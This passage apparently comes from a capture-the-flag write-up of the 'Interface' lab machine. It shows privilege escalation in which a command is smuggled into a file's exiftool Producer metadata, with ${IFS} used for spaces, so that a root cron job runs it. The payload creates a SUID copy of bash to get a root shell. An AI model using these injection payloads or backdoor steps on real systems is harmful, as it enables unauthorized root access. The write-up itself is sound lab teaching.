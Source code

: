 To do this, I’ll need to create a file in `/tmp`, and give it metadata for a `Producer` that is my payload:

```

www-data@interface:/tmp$ touch test
www-data@interface:/tmp$ exiftool -Producer='x[$(touch /tmp/0xdf)]' test  
    1 image files updated

```

Unfortunately, this didn’t execute for me. However, with some guessing that the space may be the issue, I’ll try using `${IFS}` as space (I’ve used this before many times, including on [Rope](/2020/05/23/htb-rope.html#obsticle-2-command) and [Wall](/2019/12/07/htb-wall.html#waf-testing)), and it works!

```

www-data@interface:/tmp$ touch test
www-data@interface:/tmp$ exiftool -Producer='x[$(touch${IFS}/tmp/0xdf)]' test  
    1 image files updated

```

The next time the cron runs:

```

www-data@interface:/tmp$ ls -l 0xdf
-rw-r--r-- 1 root root 0 Feb 13 20:36 0xdf

```

Another strategy would be to just write a Bash script in `/tmp` or `/dev/shm`, set it as executable, and have that be the full payload: `x=[$(/tmp/0xdf.sh)]`.

#### Shell

I’ll update my payload to create a copy of `bash` set as SUID:

```

www-data@interface:/tmp$ touch test
www-data@interface:/tmp$ exiftool -Producer='x[$(cp${IFS}/bin/bash${IFS}/tmp/0xdf;chmod${IFS}4777${IFS}/tmp/0xdf)]

```

When the cron runs, it’s there:

```

www-data@interface:/tmp$ ls -l /tmp/0xdf 
-rwsrwxrwx 1 root root 1113504 Feb 13 20:40 /tmp/0xdf

```

I’ll run it (with `-p` to not drop privs) and get a shell with effective UID as root:

